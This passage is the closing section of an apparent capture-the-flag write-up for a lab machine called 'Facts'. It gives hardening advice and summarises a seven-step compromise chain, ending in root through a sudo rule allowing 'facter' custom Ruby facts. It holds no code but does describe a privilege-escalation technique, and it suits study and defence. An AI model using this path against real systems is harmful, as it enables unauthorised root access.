- Use bucket policies that restrict object listing and retrieval.
- Enable object access logging and alert on unusual access patterns.

### 4. Restrict Sudo Rules for Scriptable Programs

Allowing a user to run `facter` as root is dangerous because it supports loading custom Ruby code. Any sudo-allowed binary that can load plugins, scripts, modules, libraries, or configuration from user-controlled paths should be treated as code execution.

Recommended controls:

- Avoid sudo permissions for interpreters or plugin-capable tools.
- If a tool must be allowed, restrict dangerous arguments such as `--custom-dir`.
- Use full command argument restrictions in sudoers.
- Audit allowed binaries with resources such as GTFOBins and vendor documentation.

---

## Conclusion

The Facts machine demonstrated a realistic multi-stage compromise path:

1. Minimal external exposure did not prevent compromise because the web application was vulnerable.
2. Authenticated CMS functionality allowed a low-privileged account to become an administrator.
3. CMS configuration exposed cloud storage credentials.
4. Cloud storage contained an encrypted SSH private key.
5. Offline cracking recovered the key passphrase.
6. SSH access as `trivia` led to local enumeration.
7. A dangerous sudo rule for `facter` allowed Ruby custom fact execution as root.

The key lesson is that privilege boundaries must be enforced consistently across the entire stack. Web roles, cloud credentials, object storage, SSH keys, local file permissions, and sudo rules are all part of the same security chain. A weakness in any one layer can become a stepping stone toward full system compromise.

